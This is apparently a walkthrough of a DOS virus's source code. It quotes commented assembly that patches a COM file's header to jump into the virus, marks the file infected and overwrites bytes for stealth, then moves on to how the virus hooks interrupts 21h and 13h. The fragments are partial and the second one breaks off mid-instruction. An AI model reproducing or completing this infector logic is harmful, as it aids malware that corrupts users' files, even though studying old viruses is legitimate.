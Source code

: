 #### Writing New Entry Point to File Header

```assembly
pop     ax                          ; Retrieve file length
                sub     ax,3                        ; Adjust for new entry point
                mov     word ptr cs:[com_header+1],ax  ; Update COM header for virus entry point
                call    set_marker                  ; Mark file as infected

                call    lseek_start                 ; Move file pointer to start
                mov     ah,40h                      ; Set up to write file
                mov     cx,3                        ; Size of new header to write
                lea     dx,com_header               ; New header to write
                call    int_21h                     ; Write new header to file
``` 

#### Cleanup and Finalization

```assembly
mov     ax,word ptr es:[di+11h]     ; Get actual file size
                sub     ax,3                        ; Adjust for header size
                call    lseek_end                   ; Move file pointer to header position

                mov     ah,40h                      ; Set up to write file
                mov     cx,3                        ; Size of data to overwrite
                lea     dx,garbage                  ; Data to overwrite with
                call    int_21h                     ; Overwrite part of the file (for stealth)

close_and_pop:  mov     ah,3eh                      ; Close file function
                call    int_21h                     ; Close the file

                call    reset_int_24h               ; Reset interrupt 24h (critical error handler)

                pop
 ```


Let's delve into the part of the code where the virus intercepts system interrupts, specifically DOS Interrupt 21h (Int 21h) and Interrupt 13h (Int 13h). This is a critical part of the virus's functionality, allowing it to inject its behavior into system operations.

